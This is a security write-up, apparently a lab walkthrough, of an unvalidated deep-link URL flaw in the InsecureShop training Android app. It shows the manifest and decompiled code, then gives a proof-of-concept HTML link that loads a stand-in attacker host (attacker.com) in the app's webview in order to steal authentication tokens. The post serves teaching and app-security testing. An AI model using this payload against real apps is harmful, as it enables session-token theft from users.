 ```yaml
---
title: InsecureShop - Insufficient URL Validation
date: '2022-07-23'
tags: ['android', 'appsec', 'insecureshop']
draft: false
summary: Possible to load any arbitrary URL in webview via Deeplink
images: '/static/images/insecureshop/deeplink.jpg'
layout: PostLayout
canonicalUrl:
---
```


# Insufficient URL Validation

> The class `com.insecureshop.WebViewActivity` contains the following code. As per the code, the application registers a path web and a query parameter url.

First step for analysis is to identify the deep links in Manifest file.

## What are deep links?

A deep link is an intent filter system that allows users to directly interact with a specific activity in an android application.

Example of our activity definition in the manifest file.

```xml
<activity android:name="com.insecureshop.WebViewActivity">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="insecureshop" android:host="com.insecureshop"/>
    </intent-filter>
</activity>
```

`com.insecureshop.webViewActivity` is browsable meaning can be accessed from web client. This is possible through resolving the URL in the `<data>` tags.
The webview responds to the scheme of `insecureshop`. Because the webview activity is wrapped under `intent-filter`, therefore meaning it is exported and can be accessed by external applications.

```java
Intrinsics.checkExpressionValueIsNotNull(intent, "intent");
Uri uri = intent.getData();
    if (uri != null) {
        String data = null;
        data = null;
        if (StringsKt.equals$default(uri.getPath(), "/web", false, 2, null)) {
            Intent intent2 = getIntent();
            Intrinsics.checkExpressionValueIsNotNull(intent2, "intent");
            Uri data2 = intent2.getData();
            if (data2 != null) {
                data = data2.getQueryParameter("url");
            }
        } else if (StringsKt.equals$default(uri.getPath(), "/webview", false, 2, null)) {
            Intent intent3 = getIntent();
            Intrinsics.checkExpressionValueIsNotNull(intent3, "intent");
            Uri data3 = intent3.getData();
            if (data3 == null) {
                Intrinsics.throwNpe();
            }
            String queryParameter = data3.getQueryParameter("url");
            if (queryParameter == null) {
                Intrinsics.throwNpe();
            }
```

The above code checks is the url has `web` or `webview` in the URL path. We can use that to craft our attack by sending user an URL we control.

We can craft an attack as shown below.

```html
<!DOCTYPE html>
<html>
  <body style="text-align: center;">
    <h1><a href="insecureshop://com.insecureshop/webview?url=https://attacker.com/">POC</a></h1>
  </body>
</html>
```

Using the above `attack`, one is able to steal authentication token in the user's header.
